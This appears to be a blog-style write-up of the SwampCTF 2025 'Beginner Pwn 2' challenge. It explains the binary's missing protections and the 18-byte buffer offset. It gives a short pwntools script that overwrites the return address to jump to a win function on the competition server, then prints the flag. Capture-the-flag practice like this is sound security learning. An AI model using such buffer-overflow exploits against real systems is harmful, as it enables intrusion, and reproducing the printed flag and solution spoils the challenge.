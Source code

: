 ```yaml
---
layout: post
title: "SwampCTF 2025: Beginner Pwn 2"
date:   2025-03-31
author: yoshixi
tags: [writeup, pwn]
---
```



author: @yoshixi
solved with: @bentley
## **Challenge Info:**
##### Category: Pwn
![beginnerpwn2](https://digitalyoshixi.github.io/ctfs/swampctf2025/beginnerpwn.webp)

[Download](https://ctf.swampctf.com/files/ba73e4e10e45fd89e46dfc3842c14cbd/binary?token=eyJ1c2VyX2lkIjoxOTEsInRlYW1faWQiOjEwOCwiZmlsZV9pZCI6MjZ9.Z-oS_g.KjaTKth3XM4R_StKJgNkf2RbHQ8)

## Solution
We take a look at `checksec`

![checksec](https://digitalyoshixi.github.io/ctfs/swampctf2025/checksec.webp)

This is good. We have no PIE and no canary. Straightforwards

Now, we try to find the return address

![checksec](https://digitalyoshixi.github.io/ctfs/swampctf2025/retaddr.webp)

Turns out the buffer size is 18, so anything afterwards is now the return statement.

We get the correct script as:

```
import pwn

r = pwn.remote("chals.swampctf.com", 40001)
win_addr = 0x401186

payload = b"A" * 18
payload += pwn.p64(win_addr)
r.sendline(payload)
print(r.recvall().decode('latin-1'))  # Print flag
r.close()
```

## Flag is: `swampCTF{1t5_t1m3_t0_r3turn!!}`